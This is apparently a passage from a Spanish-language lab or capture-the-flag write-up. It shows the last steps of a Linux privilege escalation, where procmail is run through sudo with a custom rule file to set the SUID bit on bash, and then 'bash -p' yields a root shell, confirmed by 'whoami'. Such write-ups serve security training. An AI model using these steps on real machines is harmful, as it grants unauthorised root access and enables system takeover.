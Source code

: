 ```shell
nano pwned2.txt

#Dentro del nano
test
```

```shell
 echo "test" | sudo procmail -m .procmailrc
```

Y si listamos la `bash` veremos que se pusieron los permisos `SUID` correctamente, por lo que haremos lo siguiente.

```shell
bash -p
```

Para ejecutarla con privilegios y ya seremos `root`.

```
bash-5.2# whoami
root
```
